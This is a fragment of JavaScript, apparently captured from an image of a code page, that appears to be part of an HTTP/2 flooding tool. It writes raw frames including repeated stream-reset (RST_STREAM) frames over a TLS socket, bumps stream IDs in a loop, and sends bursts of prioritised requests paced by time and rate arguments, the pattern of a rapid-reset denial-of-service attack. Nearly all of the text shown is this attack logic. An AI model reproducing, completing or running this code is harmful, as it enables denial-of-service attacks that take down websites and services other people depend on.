                                                 
                                            ]));
                                        } else if (streamIdReset >= 2 && (streamIdReset -2) % 4 === 0) {
                       tlsSocket.write(Buffer.concat([encodeFrame(streamId, data, 0x3, Buffer.from([0x0, 0x0, 0x8, 0x0]), 0x0),frames
                            
                                        ]));
                            } 
                                        streamIdReset+= 2;
                                        streamId += 2;
                                        data +=2;
                requests.push({ requestPromise, frame });
                
            }
            try {
                await Promise.all(requests.map(({ requestPromise }) => requestPromise));
            } catch (error) {
            }
            const requestPromise2 = new Promise((resolve, reject) => {
                const request2 = client.request(head, {
                    priority: 1,
                    weight: priorityWeight,
                    parent: 0,
                    exclusive: true,
                });
                request2.setEncoding('utf8');
                let data2 = Buffer.alloc(0);

                request2.on('data', (chunk) => {
                    data2 += chunk;
                });

                request2.on('response', (res2) => {
                    request2.close(http2.constants.NO_ERROR);
                        request2.destroy();
                    resolve(data2);
                });

                request2.on('end', () => {
                    count++;
                    if (count === args.time * args.Rate) {
                        clearInterval(intervalId);
                        client.close(http2.constants.NGHTTP2_CANCEL);
                        client.goaway(1, http2.constants.NGHTTP2_HTTP_1_1_REQUIRED, Buffer.from('GO AWAY'));
                    } else if (count === args.Rate) {
                        client.close(http2.constants.NGHTTP2_CANCEL);
                        client.destroy();
                        clearInterval(intervalId);
                    }
                    reject(new Error('Request timed out'));
                });

                request2.end(http2.constants.ERROR_CODE_PROTOCOL_ERROR);
            });
